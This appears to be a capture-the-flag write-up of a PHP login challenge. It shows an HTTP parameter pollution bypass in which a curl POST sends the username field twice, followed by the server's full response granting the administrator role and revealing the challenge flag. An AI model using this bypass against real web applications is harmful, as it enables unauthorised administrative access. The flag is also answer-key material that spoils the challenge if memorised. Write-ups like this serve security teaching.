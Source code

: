 With an admin account, users will be able to access more data than the normal one. By specifying twice the username, the admin will be allowed but the validation is being done as guest login information. Thus, admin access will be granted.

```bash
curl -v -X POST \  -H "Content-Type: application/x-www-form-urlencoded" \
  --data 'username=admin&username=guest&password=guest' \
  'http://5.223.49.127:27001/index.php'

*   Trying 5.223.49.127:27001...
* Connected to 5.223.49.127 (5.223.49.127) port 27001
* using HTTP/1.x
> POST /index.php HTTP/1.1
> Host: 5.223.49.127:27001
> User-Agent: curl/8.13.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 44
> 
* upload completely sent off: 44 bytes
< HTTP/1.1 200 OK
< Date: Sat, 20 Sep 2025 09:09:10 GMT
< Server: Apache/2.4.65 (Debian)
< X-Powered-By: PHP/8.1.33
< Set-Cookie: PHPSESSID=babbc4dc390d87f99e6bae4966cdb548; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 1513
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE html>
<html>
<head>
    <title>Authentication System</title>
    <style>body{font-family:Arial,sans-serif;margin:20px;background:linear-gradient(135deg,#667eea 0%,#764ba2 100%);min-height:100vh}.container{background:#fff;padding:30px;border-radius:10px;max-width:400px;margin:0 auto}h1{text-align:center;color:#333}form input{display:block;width:100%;padding:10px;margin:10px 0;border:1px solid #ccc;border-radius:5px;box-sizing:border-box}button{width:100%;padding:10px;background:#007cba;color:white;border:none;border-radius:5px;cursor:pointer}.msg{margin:10px 0;padding:10px;border-radius:5px}.success{background:#d4edda;color:#155724}.error{background:#f8d7da;color:#721c24}.flag{background:#fff3cd;color:#856404;font-weight:bold;font-family:monospace}</style>
</head>
<body>
    <div class="container">
        <h1>🔒 System Access</h1>
        
                    <div class="msg success">
                User: <strong>guest</strong><br>
                Role: <strong>administrator</strong>
            </div>
            
                            <div class="msg flag">
                    🎯 FLAG: SIBER25{h77p_p4r4m_p0llu710n_1n_php}                </div>
                        
            <div style="text-align:center; margin-top:20px;">
                <a href="?logout=1">Logout</a>
            </div>
                
                    <div class="msg success">
                Welcome, guest!            </div>
            </div>
```